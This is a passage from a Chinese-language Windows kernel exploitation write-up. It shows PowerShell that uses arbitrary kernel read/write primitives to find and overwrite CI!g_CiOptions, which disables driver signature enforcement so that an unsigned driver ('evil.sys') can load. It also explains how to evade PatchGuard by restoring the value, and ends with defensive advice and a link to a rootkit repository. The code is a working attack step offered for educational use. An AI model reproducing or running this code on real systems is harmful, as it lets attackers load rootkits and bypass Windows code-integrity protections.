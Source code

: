 ```
    # jmp CI!CipInitialize
    for ($i=0;$i -lt 500;$i++) {
        $val = ("{0:X}" -f $(Bitmap-Read -Address $($CiInitializePtr + $i))) -split '(..)' | ? { $_ }
        # Look for the first jmp instruction
        if ($val[-1] -eq "E9") {
            $Distance = [Int]"0x$(($val[-3,-2]) -join '')"
            $CipInitialize = $Distance + 5 + $CiInitializePtr + $i
            Write-Output "[+] CI!CipInitialize: $('{0:X}' -f $CipInitialize)"
            break
        }
    }
    # Calculate =&gt; g_CiOptions
    # mov dword ptr [CI!g_CiOptions],ecx
    for ($i=0;$i -lt 500;$i++) {
        $val = ("{0:X}" -f $(Bitmap-Read -Address $($CipInitialize + $i))) -split '(..)' | ? { $_ }
        # Look for the first jmp instruction
        if ($val[-1] -eq "89" -And $val[-2] -eq "0D") {
            $Distance = [Int]"0x$(($val[-6..-3]) -join '')"
            $g_CiOptions = $Distance + 6 + $CipInitialize + $i
            Write-Output "[+] CI!g_CiOptions: $('{0:X}' -f $g_CiOptions)"
            break
        }
    }
    # print g_CiOptions
    Write-Output "[+] Current CiOptions Value: $('{0:X}' -f $(Bitmap-Read -Address $g_CiOptions))`n"
    if ($SetValue) {
        Bitmap-Write -Address $g_CiOptions -Value $SetValue
        # print new g_CiOptions
        Write-Output "[!] New CiOptions Value: $('{0:X}' -f $(Bitmap-Read -Address $g_CiOptions))`n"
    }
}
```

截图如下，当前的g_CiOptions值是0x6（驱动签名启动了），且阻止了我们加载evil.sys。

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0172d8cc924976f4af.png)

在覆写这个值后，我们能成功加载我们的未签名的驱动。

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01de120a908ece0c2f.png)

不过g_CiOptions被PatchGuard保护，意味着如果这个值改变了，Windows将蓝屏（CRITICAL_STRUCTURE_CORRUPTION）。然而这个不太可能发生，当测试时我不得不等待了一个小时才等到PatchGuard触发。如果你加载了未签名的驱动，且恢复了这个值，PatchGuard将不会意识到。我的深度防御的建议是在驱动加载时触发CI的PatchGuard检查，尽管这个也不能阻止攻击者反射加载驱动，但会提高门槛。

<br>

**0x04 想法**

第三方，签名的驱动对Windows内核构成了严重威胁，我确信这个例子已经说明了这种情况。我也发现实现简单的内核subversion比想象中容易，尤其是与PatchGuard有关的。总的来说，我认为最明智的做法是组织使用驱动白名单来部署设备保护，以便消除这种类型的攻击。

[Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)在GitHub中提供，用于教育/测试的目的，不要做坏事。
